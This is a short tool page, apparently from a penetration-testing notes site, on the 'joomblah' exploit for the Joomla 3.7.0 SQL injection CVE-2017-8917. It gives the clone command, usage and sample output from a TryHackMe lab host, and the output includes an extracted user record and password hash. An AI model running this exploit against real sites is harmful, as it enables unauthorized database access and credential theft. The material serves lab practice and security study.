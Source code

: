 icon:fontawesome/solid/unlock-keyhole

# CVE-2017-8917

CVE-2017-8917 - SQL injection Vulnerability in Joomla! 3.7.0 exploit aka joomblah

SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers to execute arbitrary SQL commands via unspecified vectors.

## Installation

- [joomblah.py](../assets/files/joomblah.py)

```bash
git clone https://github.com/stefanlucas/Exploit-Joomla.git
```

## Usage

```bash
joomblah.py [-h] url
```

## Flags

```bash
Jooma Exploit

positional arguments:
  url         Base URL for Joomla site

optional arguments:
  -h, --help  show this help message and exit
```

## Examples

```bash
$ python joomblah.py http://10.10.181.117/

    .---.    .-'''-.        .-'''-.
    |   |   '   _    \     '   _    \                            .---.
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.
|____.'                                                                `--'  `" '---'   '---'

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

## References

- [Github.com - Exploit-Joomla](https://github.com/stefanlucas/Exploit-Joomla)
